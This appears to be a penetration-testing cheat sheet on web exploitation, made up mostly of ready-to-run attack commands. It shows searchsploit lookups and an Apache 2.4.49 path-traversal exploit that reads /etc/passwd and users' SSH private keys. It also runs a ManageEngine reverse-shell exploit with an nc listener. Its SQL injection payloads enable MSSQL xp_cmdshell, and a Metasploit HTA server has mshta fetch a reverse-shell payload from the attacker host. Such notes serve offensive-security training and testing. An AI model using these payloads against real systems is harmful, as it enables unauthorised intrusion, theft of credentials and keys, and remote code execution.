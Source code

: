# 01 - Web Exploitation

Index
- [Exploit DB](#Exploit-DB)
- [Example: direct access](#Example-direct-accesse)
- [Example: reverse shell](#Example-reverse-shell)
- [Example: sqli](#Example-sqli)
    - [MSSQL Error, UNION SELECT](#MSSQL-Error-UNION-SELECT)

## Exploit DB

Exploit search command example: searchsploit $software $version
``` bash
searchsploit apache 2.4.49
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
...
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)       | multiple/webapps/50383.sh
...
------------------------------------------------------------------------------- ---------------------------------
```

Copy exploit on disk:
``` bash
searchsploit -m multiple/webapps/50383.sh
```

## Example: direct access

ID 50383: Apache path traversal
``` bash
bash 50383.sh ./targets.txt /etc/passwd                 ## read file passwd, user enum
bash 50383.sh ./targets.txt /etc/ssh/*pub               ## search ecdsa key
bash 50383.sh ./targets.txt /home/$user/.ssh/id_ecdsa   ## read ecdsa key, possible ssh access
bash 50383.sh ./targets.txt /home/$user/.ssh/id_rsa     ## read rsa key, possible ssh access
```

## Example: reverse shell

ID 48793: ManageEngine reverse shell (auth)
``` bash
python3 48793.py https://192.168.1.1:8443 admin admin $KALI_IP $PORT    ## richiede nc listener: nc -nvlp 443
```

## Example: sqli

### MSSQL Error, UNION SELECT

Check available fields:
``` text
admin' UNION SELECT 1,2,3,4,5--+
admin' UNION SELECT 1,2,3,4--+
admin' UNION SELECT 1,2,3--+
admin' UNION SELECT 1,2--+
```

Enable xp_cmdshell:
``` text
admin' UNION SELECT 1,2; EXEC sp_configure 'show advanced options', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
admin' UNION SELECT 1,2; EXEC sp_configure 'xp_cmdshell', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
```

HTA_listener:
``` bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST $KALI     ## set attacker IP
LHOST => $KALI
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) > 
[*] Started reverse TCP handler on 192.168.45.226:4444 
[*] Using URL: http://$KALI:8888/Kl4Su1ud80QLi.hta          ## HTA url, reverse shell target
[*] Server started.
```

Exploiting:
``` text
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'mshta.exe http://$KALI:8888/Kl4Su1ud80QLi.hta'--+
```
